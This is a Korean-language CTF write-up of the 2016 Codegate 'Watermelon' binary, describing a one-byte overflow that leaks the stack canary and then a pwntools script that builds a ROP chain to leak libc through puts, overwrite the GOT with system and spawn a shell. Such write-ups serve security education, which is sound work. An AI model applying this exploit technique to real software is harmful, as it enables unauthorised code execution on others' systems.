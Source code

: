 ```yaml
---
title: "2016 Codegate Watermelon"
date: 2019-11-13
tags: [Codegate]
categories: [Codegate]
---
```


이름을 입력하는 곳을 보면 전역변수(bss) 영역에 scanf를 받게 된다.

add, view, modify에 들어가는 인자가 4400만큼 할당받는다.

add함수에서는 어떠한 전역변수 하나가 100인지 비교하고 아니면 곡 추가하고 증가해주는 거 보면 곡의 인덱스인거 같다.

playlist 구조체 : num(4) + music(20) + artist(20)

이러한 구조체가 100개 있는 것이다.

```c
int playlist_struct; // [esp+1Ch] [ebp-113Ch]
unsigned int canary; // [esp+114Ch] [ebp-Ch]
구조체(4400) + canary()
```

add() : 1byte overflow

view() : playlist view -> view canary

modify() : overflow 

Canary Leak 시나리오

> add()로 playlist 100개 채우는데 마지막에 artist만 21개 입력해서 Canary Leak해준다.
>
> view()로 가서 Leak된 Canary를 알아온다.
>
> modify()로 가서 bof 일으키고 Canary 값 맞춰주면서 ROP 해주면 된다.

```python
from pwn import *
 
context.log_level = 'debug'
context.arch = 'i386'
 
p = process('./watermelon')
libc = ELF('/lib/i386-linux-gnu/libc.so.6',checksec=False)
e = ELF('./watermelon')
 
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
s = lambda x : p.send(x)
 
popret = 0x080484d1 # 0x080484d1 : pop ebx ; ret
pop3ret = 0x080495ad # 0x080495ad : pop ebx ; pop edi ; pop ebp ; ret
bss = e.bss()
 
def add():
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A')
 
if __name__ == '__main__':
    sla('name : \n','realsung')
    for i in range(99):
        add()
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A'*21)
 
    sla('\tselect\t|\t\n','2')
    p.recvuntil('A'*20)
    canary = u32(p.recv(4)) - ord('A')
    log.info('canary : ' + hex(canary))
 
    ########################################
 
    sla('\tselect\t|\t\n','3')
    sla('select number\t|\t\n','100')
    sla('\tmusic\t|\t','B')
 
    # artist(20) + canary(4) + dummy(8) + sfp(4) + ret 
    pay = 'A'*20
    pay += p32(canary)
    pay += 'A'*12
    pay += flat(e.plt['puts'],popret,e.got['puts'])
    pay += flat(e.plt['read'],pop3ret,0,bss,10)
    pay += flat(e.plt['read'],pop3ret,0,e.got['puts'],8)
    pay += flat(e.plt['puts'],'AAAA',bss) 
    sla('\tartist\t|\t',pay)
 
    sla('\tselect\t|\t\n','4')
 
    p.recvuntil('BYE BYE\n\n')
    puts = u32(p.recv(4))
    log.info('puts : ' + hex(puts))
    libc_base = puts - libc.symbols['puts']
    log.info('libc_base : ' + hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.info('system : ' + hex(system))
 
    sl('/bin/sh\x00')
    s(p32(system))
 
p.interactive()
```

